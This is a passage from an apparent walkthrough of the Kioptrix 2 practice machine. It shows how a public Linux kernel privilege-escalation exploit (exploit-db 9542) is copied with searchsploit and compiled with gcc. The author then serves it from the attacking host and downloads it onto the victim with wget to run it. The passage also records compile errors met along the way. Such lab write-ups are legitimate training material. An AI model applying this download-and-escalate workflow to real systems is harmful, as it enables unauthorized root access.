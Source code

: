 I copy the exploit code to the working folder, and compile it with gcc:
```
root@Cortana:/home/montana/Documents/Kioptrix_2# searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)                                                                   
      URL: https://www.exploit-db.com/exploits/9542/
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/montana/Documents/Kioptrix_2/9542.c

root@Cortana:/home/montana/Documents/Kioptrix_2# gcc -o exploit 9542.c
9542.c:109:28: warning: no newline at end of file
```

### Compiling and transferring the exploit
As I'm compiling the exploit locally, I use Python's Simple HTTP Server to serve-up and retrieve the exploit to the victim machine:

Start the server in the directory with the exploit on the attacking computer:
```
root@Cortana:/home/montana/Documents/Kioptrix_2# python -m SimpleHTTPServer
```

On the victim, cd to /tmp so we can write the file to disk; retrieve it from the attacker, and make it executable:
```
bash-3.00# cd /tmp
bash-3.00# wget 192.168.123.128:8000/exploit
bash-3.00# chmod 755 exploit
```

### Face, meet Palm
Unfortunately when I first try to run the exploit, I get this error:
```
bash-3.00$ ./exploit
bash: ./exploit: cannot execute binary file
```

A quick Google reminds me that I needed to run gcc with the -m32 flag to compile it as a 32-bit binary so it'd run on the 32-bit victim machine. Re-running it, I get a different error:

```
bash-3.00$ ./exploit
bash: [3486: 4] tcsetattr: Invalid argument 
```

> Comment: Get used to having to compiling, editing, and re-running exploits multiple times before they work - unfortunately if they're not in Metasploit, they'll probably need some tweaking before/if they work.

A good samaritan on Reddit offered the following advice: 

![gccCompile.png](https://opalsec.github.io/assets/images/Kioptrix2/gccCompile.png)
